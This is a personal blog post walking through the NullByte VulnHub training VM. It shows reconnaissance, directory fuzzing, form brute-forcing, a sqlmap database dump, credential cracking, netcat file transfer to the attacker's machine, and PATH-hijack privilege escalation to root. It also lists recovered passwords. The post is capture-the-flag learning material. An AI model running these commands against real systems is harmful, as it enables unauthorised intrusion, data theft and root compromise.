 ```yaml
---
layout: post
title:  "vulnhub nullbyte vm"
date:   2016-03-01 00:00:10 +0000
categories: vulnhub
---
```

<p>This is about nullbyte, a breakable vm from <a href="http://www.vulnhub.com">vulnhub</a>. Vulnhub is the ultime playground if you like coding/security :)
<br>
<p> I'm using debian with the packages i need to play with these VM's, yes i could use kali or any other vm but those are overwhelming for me.
<p> So let's get stated. Finding the machine:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p>The one with name CADMUS COMPUTER SYSTEMS is the nullbyte machine. Next, let's check what it's running:
{% highlight bash %}
nmap -p- -sV 192.168.1.84
{% endhighlight %}
<p>Running apache on port 80, running ssh on port 777. There are other two services that i ignored.
<p>So, i open browser and found a pretty much unuseful page e h... i tried to search for other directories/pages on the server so i used wfuzz.py and also made lame attempt to replace wfuzz.py. Just because. This lame attempt is visible in <a href="https://github.com/impious/trash">github</a> as hfuzz.rb.
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404 -o html  http://192.168.1.84/FUZZ
{% endhighlight %}
<p> A few directories but the most import was <b>phpmyadmin</b>. There must be something more than a simple html with an image. Neverless i couldn't find anything useful, so i took a glimpse at the <a href="http://anthonyferrillo.net/blog/nullbyte-solution/">walkthrough</a> and saw that people checked the image.
<p>By now i already knew that there was an url on the image, shamefully i know, but 'live and learn'. Went through an opened it in the browser and saw that the newly found page had a form and message saying the password wasn't hard. Again, i build an brute forcer to found the password. You can check the code <a href="https://github.com/impious/trash">github</a> as brute.rb. After a few minutes i found the password 'elite'. Btw, for real brute forcing use hydra.
<p>Anyway, a new form was found with a texbox on it. After playing around in the browser i found http://192.168.1.84/kzMb5nVYJw/420search.php which had a few data on it . That search smelled as sqli so i fired up sqlmap.py. Yes dump-all. No big databases on this playing vm's.
{% highlight bash %}
sqlmap -u http://192.168.1.84/kzMb5nVYJw/420search.php?usrtosearch=ramses --dump-all
{% endhighlight %}
<p> Got the password YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE from the output tables. So i searched it on google which pointed me to base64 and md5. Although it didn't have a "=" which usually means it's encode in base64  <a href="https://www.base64decode.org/">https://www.base64decode.org/</a> to decode then to <a href="https://hashkiller.co.uk/md5-decrypter.aspx">https://hashkiller.co.uk/md5-decrypter.aspx</a>. <br>Password: omega.
<p>Ok, now i had an user.
{% highlight bash %}
ssh ramses@192.168.1.84 -p 777
{% endhighlight %}
<p> First thing i always check is .bash_history.
{% highlight bash %}
cat .bash_history
{% endhighlight %}
<p> a file in backup and the website itself.
{% highlight bash %}
cd /var/www
{% endhighlight %}
<p>Went through the directory tree and reached the 420search.php.
{% highlight bash %}
cat 420search.php
{% endhighlight %}
<p> Eheheh, by now i could login in phpmyadmin with root:sunnyvale. I also tried this login in command line with no luck.
<p>In the .bash_history they pointed out the file 'procwatch', which owned/runned as root. I couldn't find anything more about it and it seemed to run a simple 'ps'. After a while, i copied it to my computer with netcat:
{% highlight bash %}
nc -lnvvp 4444 > procwatch
{% endhighlight %}
{% highlight bash %}
nc 192.168.1.73 4444 < procwatch
{% endhighlight %}
<p>I remembered a trick i read in other vm's walkthroughs, so i symlinked /bin/sh into ps and changed the  path to prioritize my symlinked:
{% highlight bash %}
ln -s /bin/sh ps
export PATH=.:$PATH
{% endhighlight %}
<p>
and then run the process and voilá, root. This was pure luck because i could only do that if the parameter passed which i assumed was 'ps' didn't have the full path.
<br><p> Saw other people resolution and i must learn how to gdb properly. Others created a newly ps and changed the path to prioritize. Anyway, my deadlock in this was one the damn image, Neverless it was pure fun. :)
